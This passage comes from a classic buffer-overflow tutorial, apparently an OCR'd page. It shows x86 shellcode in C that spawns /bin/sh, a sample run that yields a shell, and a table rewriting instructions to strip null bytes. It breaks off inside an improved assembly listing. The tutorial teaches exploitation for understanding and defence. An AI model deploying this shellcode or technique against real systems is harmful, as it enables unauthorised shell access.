 	(gdb)
	.
	.
	.
    
    
*testsc.c*

	char shellcode[] =
		"\xeb\x2a\x5e\x89\x76\x08\xc6\x46\x07\x00\xc7\x46\x0c\x00\x00\x00"
		"\x00\xb8\x0b\x00\x00\x00\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
		"\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xd1\xff\xff"
		"\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00\x89\xec\x5d\xc3";

	void main() {
		int *ret;

		ret = (int *)&ret + 2;
		(*ret) = (int)shellcode;

	}

`[aleph1]$ gcc -o testsc testsc.c`

`[aleph1]$ ./testsc`

`$ exit`

`[aleph1]$`

It works! But there is an obstacle.  In most cases we'll be trying to
overflow a character buffer.  As such any null bytes in our shellcode will be
considered the end of the string, and the copy will be terminated.  There must
be no null bytes in the shellcode for the exploit to work.  Let's try to
eliminate the bytes (and at the same time make it smaller).

	Problem instruction:             Substitute with:
	--------------------------------------------------------
	movb   $0x0,0x7(%esi)		xorl   %eax,%eax
	molv   $0x0,0xc(%esi)		movb   %eax,0x7(%esi)
					movl   %eax,0xc(%esi)
	--------------------------------------------------------
	movl   $0xb,%eax            	movb   $0xb,%al
	--------------------------------------------------------
	movl   $0x1, %eax           	xorl   %ebx,%ebx
	movl   $0x0, %ebx           	movl   %ebx,%eax
					inc    %eax
	--------------------------------------------------------

Our improved code:

*shellcodeasm2.c*

	void main() {
	__asm__("
        jmp    0x1f                     # 2 bytes
        popl   %esi                     # 1 byte
        movl   %esi,0x8(%esi)           # 3 bytes
        xorl   %eax,%eax                # 2 bytes
		movb   %eax,0x7(%esi)		# 3 bytes
        movl   %eax,0xc(%esi)           # 3 bytes
        movb   $0xb,%al                 # 2 bytes
        movl   %esi,%ebx                # 2 bytes
        leal   0x8(%esi),%ecx           # 3 bytes
        leal   0xc(%esi),%edx           # 3 bytes
        int    $0x80                    # 2 bytes
        xorl   %ebx,%ebx                # 2 bytes
        movl   %ebx,%eax                # 2 bytes
        inc    %eax                     # 1 bytes